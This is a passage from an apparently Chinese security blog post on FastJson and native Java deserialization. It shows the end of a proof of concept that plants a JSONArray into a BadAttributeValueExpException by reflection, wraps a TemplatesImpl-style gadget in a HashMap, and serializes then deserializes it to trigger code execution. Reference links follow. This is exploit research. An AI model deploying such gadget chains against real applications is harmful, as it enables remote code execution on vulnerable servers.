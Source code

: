 ```

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates, val);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(hashMap);

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

![image-20250128221545087](images/15.png)



参考链接：

https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/

https://www.cnpanda.net/sec/893.html

https://www.cnpanda.net/sec/928.html